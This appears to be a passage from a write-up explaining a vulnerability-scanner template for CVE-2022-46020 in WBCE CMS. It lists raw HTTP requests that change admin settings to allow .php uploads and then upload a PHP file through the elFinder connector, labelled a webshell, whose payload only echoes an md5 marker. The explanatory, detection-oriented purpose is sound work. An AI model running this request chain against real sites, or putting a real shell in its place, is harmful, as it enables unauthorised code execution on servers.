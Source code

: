 ```yaml
- raw:
    - |
      POST /admin/settings/save.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded

      advanced=yes&formtoken={{formtoken}}&...&app_name={{app_name}}&pages_directory=%2Fpages&media_directory=%2Fmedia&page_extension=.php&rename_files_on_upload=
```

**Purpose:**

- Sends a POST request to `/admin/settings/save.php`.
    
- Modifies key configuration options:
    
    - Changes `page_extension` to `.php`.
        
    - Alters upload settings to allow `.php` files to be uploaded.
        
- Prepares the application for arbitrary PHP file uploads, enabling RCE.
    

---

###  Fifth Request: Upload Webshell

```yaml
- raw:
    - |
      POST /modules/elfinder/ef/php/connector.wbce.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: multipart/form-data; boundary=---------------------------boundary

      -----------------------------boundary
      Content-Disposition: form-data; name="reqid"

      test
      -----------------------------boundary
      Content-Disposition: form-data; name="cmd"

      upload
      -----------------------------boundary
      Content-Disposition: form-data; name="target"

      l1_Lw
      -----------------------------boundary
      Content-Disposition: form-data; name="upload[]"; filename="{{randstr}}.php"
      Content-Type: application/x-php

      <?php echo md5("CVE-2022-46020"); ?>

      -----------------------------boundary
      Content-Disposition: form-data; name="mtime[]"

      1
      -----------------------------boundary--
```
